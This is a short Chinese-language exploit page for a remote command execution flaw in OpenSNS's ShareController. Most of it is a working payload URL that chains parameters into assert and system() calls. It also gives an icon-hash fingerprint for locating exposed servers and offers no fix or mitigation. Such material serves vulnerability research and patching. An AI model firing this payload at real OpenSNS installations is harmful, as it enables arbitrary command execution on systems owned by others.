

# OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下


存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`



发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

